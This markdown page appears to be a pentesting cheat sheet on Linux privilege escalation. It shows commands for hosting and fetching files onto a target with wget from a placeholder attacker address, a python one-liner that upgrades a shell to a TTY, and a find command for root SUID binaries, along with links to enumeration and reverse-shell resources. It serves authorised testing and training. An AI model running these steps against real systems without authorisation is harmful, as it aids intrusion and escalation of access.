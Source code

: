 ```yaml
---
layout: default
title: Linux Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Linux Privilege Escalation :

### Simple Web Server
```bash
sudo python3 -m http.server
```

### Download file

```bash
wget http://<IP>:<PORT>/<FILE>
```

### LinPeas :

Will automate the privilege escalation detection : 

- [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### GTFOBINS

Assist to perform privilege escalation using bin:

- [https://gtfobins.github.io/](https://gtfobins.github.io/)

### PSPY

Will show every runnning procress : 

- [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

### ReverseShell OneLiner

Produce reverse shell in one line (usefull to update script / command):
- [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


### TTY Shell

- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Find SUID : 

```bash
find directory -user root -perm -4000 -exec ls -ldb {} \; >/tmp/filename
```

